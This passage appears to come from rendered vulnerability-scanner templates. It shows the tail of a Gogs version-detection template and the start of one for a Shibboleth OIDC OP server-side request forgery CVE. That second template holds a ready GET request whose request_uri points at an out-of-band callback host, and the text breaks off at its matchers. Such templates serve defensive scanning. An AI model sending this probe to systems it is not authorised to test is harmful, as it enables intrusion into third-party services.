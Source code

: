 - part - body
- regex
  1. <div class="ui left">\n\s+© \d{4} Gogs Version: ([\d.]+) Page:

**Type - dsl**

- dsl
  1. compare_versions(version, '< 0.12.5')

**Type - status**

- status
  1. 200

### Extractors

**Type - regex**

- name - version
- internal - True
- group - 1
- regex
  1. <div class="ui left">\n\s+© \d{4} Gogs Version: ([\d.]+) Page:

**Type - regex**

- group - 1
- regex
  1. <div class="ui left">\n\s+© \d{4} Gogs Version: ([\d.]+) Page:

---

# Shibboleth OIDC OP <3.0.4 - Server-Side Request Forgery

## Description

- The Shibboleth Identity Provider OIDC OP plugin before 3.0.4 is vulnerable to server-side request forgery (SSRF) due to insufficient restriction of the request_uri parameter, which allows attackers to interact with arbitrary third-party HTTP services.
- severity - high
- tags - cve,cve2022,ssrf,oidc,shibboleth

## Requests

- Method - GET

### URL

- {{BaseURL}}/idp/profile/oidc/authorize?client_id=demo_rp&request_uri=https://{{interactsh-url}}

### Matchers

**Type - word**

